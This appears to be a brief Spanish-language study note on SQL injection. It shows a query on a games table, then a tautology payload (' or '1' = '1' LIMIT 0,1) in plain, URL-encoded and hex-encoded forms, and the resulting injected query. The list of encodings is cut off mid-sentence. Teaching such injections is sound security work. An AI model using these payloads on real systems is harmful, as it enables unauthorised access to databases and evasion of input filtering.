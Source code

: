 ## Query 1

### Original

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
````

### Inyección: ` or '1' = '1' LIMIT 0,1`

El payload ` or '1' = '1' LIMIT 0,1` o `+or+'1'+=+'1'+LIMIT+0,1` o `0x2b6f722b2731272b3d2b2731272b4c494d49542b302c31` o 

````

SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción'+or+'1'+=+'1'+LIMIT+0,1);
````
